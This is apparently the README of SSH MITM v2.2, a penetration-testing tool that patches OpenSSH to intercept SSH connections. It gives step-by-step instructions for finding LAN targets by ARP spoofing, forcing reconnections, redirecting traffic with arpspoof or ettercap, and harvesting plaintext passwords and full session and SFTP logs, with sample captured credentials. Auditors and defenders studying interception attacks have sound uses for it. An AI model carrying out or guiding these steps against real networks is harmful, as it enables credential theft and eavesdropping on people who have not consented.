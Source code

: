 # SSH MITM v2.2

Author: [Joe Testa](https://www.positronsecurity.com/company/) ([@therealjoetesta](https://twitter.com/therealjoetesta))


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd_mitm* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v2.2: September 16, 2019: Fixed installation on Kali & Linux Mint 19.  Fixed a double-password prompt that occured under certain conditions.  Improved error logging.
* v2.1: January 4, 2018: Enabled non-interactive command execution, connections to old servers with weak algorithms can now be intercepted, fixed two major bugs which caused AppArmor to kill some connections, and improved error logging.
* v2.0: September 12, 2017: Added full SFTP support(!) and AppArmor confinement.
* v1.1: July 6, 2017: Removed root privilege dependencies, added automatic installer, added Kali Linux support, added *JoesAwesomeSSHMITMVictimFinder.py* script to find potential targets on a LAN.
* v1.0: May 16, 2017: Initial revision.


## To Do

The following list tracks areas to improve:

* Add port forwarding support.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

As root, run the *install.sh* script.  This will install prerequisites from the repositories, download the OpenSSH archive, verify its signature, compile it, and initialize a non-privileged environment to execute within.


## Finding Targets

The *JoesAwesomeSSHMITMVictimFinder.py* script makes finding targets on a LAN very easy.  It will ARP spoof a block of IPs and sniff for SSH traffic for a short period of time before moving on to the next block.  Any ongoing SSH connections originating from devices on the LAN are reported.

By default, *JoesAwesomeSSHMITMVictimFinder.py* will ARP spoof and sniff only 5 IPs at a time for 20 seconds before moving onto the next block of 5.  These parameters can be tuned, though a trade-off exists: the more IPs that are spoofed at a time, the greater the chance you will catch an ongoing SSH connection, but also the greater the strain you will put on your puny network interface.  Under too high of a load, your interface will start dropping frames, causing a denial-of-service and greatly raising suspicions (this is bad).  The defaults shouldn't cause problems in most cases, though it'll take longer to find targets.  The block size can be safely raised on low-utilization networks.

Example:

    # ./JoesAwesomeSSHMITMVictimFinder.py --interface enp0s3 --ignore-ips 10.11.12.50,10.11.12.53
    Found local address 10.11.12.141 and adding to ignore list.
    Using network CIDR 10.11.12.141/24.
    Found default gateway: 10.11.12.1
    IP blocks of size 5 will be spoofed for 20 seconds each.
    The following IPs will be skipped: 10.11.12.50 10.11.12.53 10.11.12.141


    Local clients:
      * 10.11.12.70 -> 174.129.77.155:22
      * 10.11.12.43 -> 10.11.99.2:22

The above output shows that two devices on the LAN have created SSH connections (10.11.12.43 and 10.11.12.70); these can be targeted for a man-in-the-middle attack.  Note, however, that in order to potentially intercept credentials, you'll have to wait for them to initiate new connections.  Impatient pentesters may opt to forcefully close existing SSH sessions (using the *tcpkill* tool), prompting clients to create new ones immediately...


## Running The Attack

1.) Once you've completed the initial setup and found a list of potential victims (see above), execute *start.sh* as root.  This will start *sshd_mitm*, enable IP forwarding, and set up SSH packet interception through *iptables*.

2.) ARP spoof the target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

Alternatively, you can use the *ettercap* tool:

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

3.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

4.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/*.  SSH sessions are logged as *shell_session_\*.txt*, and SFTP sessions are logged as *sftp_session_\*.html* (with transferred files stored in a corresponding directory).


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    Sep 11 19:28:14 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session is logged:

    # cat /home/ssh-mitm/shell_session_0.txt
    Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    Last login: Thu Aug 31 17:42:38 2017
    OpenBSD 6.1 (GENERIC.MP) #21: Wed Aug 30 08:21:38 CEST 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like *sudo* and *ssh* temporarily disable echoing in order to read a password, duplicate characters are not logged.

All SFTP activity is captured as well.  Use a browser to view *sftp_session_0.html*.  It contains a log of commands, with links to files uploaded and downloaded:

    # cat /home/ssh-mitm/sftp_session_0.txt
    <html><pre>Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    > realpath "." (Result: /home/jdog)
    > realpath "/home/jdog/." (Result: /home/jdog)
    > ls /home/jdog
    drwxr-xr-x    4 jdog     jdog         4096 Sep 11 16:12 .
    drwxr-xr-x    4 root     root         4096 Sep  6 11:53 ..
    -rw-r--r--    1 jdog     jdog         3771 Aug 31  2015 .bashrc
    -rw-r--r--    1 jdog     jdog          220 Aug 31  2015 .bash_logout
    drwx------    2 jdog     jdog         4096 Sep  6 11:54 .cache
    -rw-r--r--    1 jdog     jdog          655 May 16 08:49 .profile
    drwx------    2 jdog     jdog         4096 Sep  8 16:59 .ssh
    -rw-rw-r--    1 jdog     jdog      5242880 Sep  8 15:52 file
    -rw-rw-r--    1 jdog     jdog        43131 Sep 10 10:47 file2
    -rw-rw-r--    1 jdog     jdog           83 Sep  6 12:56 file3
    -rw-rw-r--    1 jdog     jdog      3048960 Sep 11 13:51 file4

    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > put <a href="sftp_session_0/file5">/home/jdog/file5</a>
    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > stat "/home/jdog/file5" (Result: flags: 15; size: 854072; uid: 1001; gid: 1001; perm: 0100664, atime: 1505172831, mtime: 1505172831)
    > setstat "/home/jdog/file5" (Result: flags: 4; size: 0; uid: 0; gid: 0; perm: 0100700, atime: 0, mtime: 0)
    </pre></html>


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh -p 2222 valid_user_on_debug_host@localhost

To test out changes to the OpenSSH source code, use the *dev/redeploy.sh* script.

To see a diff of uncommitted changes, use the *dev/make_diff_of_uncommitted_changes.sh* script.

To re-generate a full patch to the OpenSSH sources, use the *dev/regenerate_patch.sh* script.
